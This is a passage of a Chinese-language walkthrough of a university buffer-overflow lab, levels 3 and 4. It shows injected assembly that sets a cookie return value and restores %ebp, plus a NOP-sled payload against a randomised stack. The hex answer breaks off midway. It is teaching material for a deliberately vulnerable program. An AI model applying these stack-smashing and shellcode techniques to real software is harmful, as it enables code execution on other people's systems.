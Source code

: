 ## 第3关：Dynamite

和上一关类似，区别在这一关在嵌入攻击汇编代码后，不是跳转到任意一个函数，而是跳转回callee（就是test函数），其实这和跳转到bang没有任何区别。题目还有一个额外的要求，让getbuf返回cookie值给test而不是原本的1。寄存器%eax是用来传递返回值的，所以只需要在攻击代码里把cookie值mov到这个寄存器即可。还有一个问题，return address怎么得到，有两个方法，第一个方法，在test函数调用getbuf的下一条指令地址就是getbuf返回的地址；第二个方法，用gdb断点打在getbuf，打印出%ebp + 4这个地址的值就是return address。

所以攻击代码是这样的：
```
movl 0x804d108, %eax    /* cookie存在地址0x804d108里 */
pushl $0x08048dbe       /* 返回地址 */
ret
```

运行一下发现程序段错误了。用gdb单步调试发现这个段错误发生在从getbuf返回后，执行`mov -0xc(%ebp),%edx`。突然意识到，在攻击的时候把%ebp给覆盖掉了，所以此时的%ebp是0，当然会发生非法地址访问。于是在我们的攻击代码里需要恢复%ebp的值，这个值也可以从gdb中打印看出。

所以攻击代码应该是这样的：
```
movl 0x804d108, %eax
movl $0x556838b0, %ebp
pushl $0x08048dbe
ret
```

到这里，我们可以思考一下，我们究竟干了什么。我们让一个程序执行了我们自己设计的代码并且程序毫不知情！

## 第4关：Nitroglycerin

这一关难度比前面都大。进入这一关需要加入-n选项，调的函数是testn和getbufn，而不是前面的test和getbuf。前面所有函数调用的栈地址都是固定的，静态的。在这一关栈的地址将不固定，也就是说不能准确地跳转到栈空间的某个特定地址，因为我们不知道局部变量的初始化地址在哪。这道题有5个test case，要都通过才算过，不能写死跳转地址了。

在这一关buffersize也从32增大到了512，这个做法是有意义的。大概的思路是，虽然栈的初始地址不同，但会在一些范围里浮动，所以我们需要把我们的代码填在512字节的最后几个字节里，并且前面全面的空间都填上nop(编码为`0x90`)。不管我们跳转到哪个nop，最后都会执行到我们的代码。用gdb观察5个case分别的`ebp - 0x200`的值，我们取最大的值作为跳转地址。
在我这里最大的地址是`0x55683570`。

因为要执行5遍，所以我们必须考虑覆盖`saved ebp`这个问题，否则程序不能正确运行。查看testn的ebp值和getbufn的ebp值，发现它们的差值总是`0x30`，所以当我们返回testn的时候，$esp+0x28 就应该是此时ebp正确的值。

所以我们的汇编代码为：
```
lea 0x28(%esp), %ebp
mov 0x804c1e4, %eax
push $0x8048c93     /* 返回到testn的地址 */
ret
```

第二行代码的目的是因为跳转到`0x8048c93`后，eax的值需要和cookie比较，相等才能通过。

所以答案为：
```
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
```